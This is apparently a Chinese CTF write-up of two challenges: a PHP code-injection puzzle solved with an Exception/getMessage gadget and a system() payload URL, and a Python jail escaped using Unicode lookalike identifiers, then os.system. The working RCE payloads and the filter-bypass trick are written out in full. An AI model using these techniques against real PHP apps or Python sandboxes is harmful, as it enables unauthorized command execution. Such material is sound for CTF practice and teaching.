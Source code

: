 ```php
if(preg_match("/php/i", $b)) {
 die("别上🐎，想捣蛋啊哥们？");
}

if(preg_match("/Error|ArrayIterator/i", $c)) {
 die("你今天rce不了一点");
}


$class = new $a($b);
$str1 = substr($class->$c(),$d,$e);
$str2 = substr($class->$c(),$f,$g);
$str1($str2);

//flag.php
```

经过简单分析，可以知道这段代码是从查询字符串里面读出参数~~废话~~，然后用`$b`为**参数**，初始化了一个**名称**为`$a`的**内部类**，再从这个对象实例中的**名称**为`$c`的方法的返回**结果**中，**提取了两个子字符串**

首先可以排除`$a`和`$c`这两个参数，因为一个是内部类，一个是方法名，肯定不是可自由控制的，那就只能是`$b`为自由控制的了。

其中这里对`$a`进行的一个过滤反而给了提示，简单查查就可以发现`Exception`这个类，接受一个字符串参数作为错误消息，并且可以通过`getMessage()`方法来获取这个消息，这不就秒了吗（

你先别急，这还有对`$b`的过滤呢，最末尾已经提示了"flag.php"，但是php又在过滤范围内，怎么搞？别忘了`system()`函数调的是一个shell，可以用一些sh的语法，比如`ls` -> `ls | grep flag` -> `cat $(ls | grep flag)`，这不就读到了吗（

你还是别急，这么做之后你会发现，怎么没有回显？？？？？？

我猜测是混进源码被解释器执行了，无所谓，只要能提出flag就行了，别的行爱怎么样怎么样，再来一个grep！`cat $(ls | grep flag) | grep {` 直接筛选有`{`的行，最后回显有且仅有flag的内容

上payload `http://127.0.0.1:200/shell.php?a=Exception&b=systemcat $(ls . | grep flag) | grep {&c=getMessage&d=0&e=6&f=6&g=114`

## Misc WriteUp - PyCalc

emmm，这是个**misc**，也没有附件，只有一个~~wsrx地址~~，用nc连上，提示这是一个基于python的计算器，随便输点发现只要有`A-z`的字符出现，马上就会报hacker并切断链接。

显然，这是一个pyjail的逃逸。

既然`A-z`都不能用，那就得想办法替代`A-z`，上课摸鱼一顿搜，搜到了[PEP - 3131](https://peps.python.org/pep-3131/)，这个规范提出了可以用一部分等效的unicode字符来作为python identifier的一部分，找到对应的unicode字符表，可以写一段简单的代码进行转换

```python
"".join([(chr(ord(x)-ord("a")+ord("\U0001d44e")) if ord(x)>= ord("A") and ord(x)<=ord("z") else x) for x in "eval(input())"])
```

转换得到结果`𝑒𝑣𝑎𝑙(𝑖𝑛𝑝𝑢𝑡())`，丢到解释器里面执行，发现和`eval(input())`的行为一模一样，直接把这一行喂给题目环境，再输入指令

```python
__import__("os").system("cat lag")
```

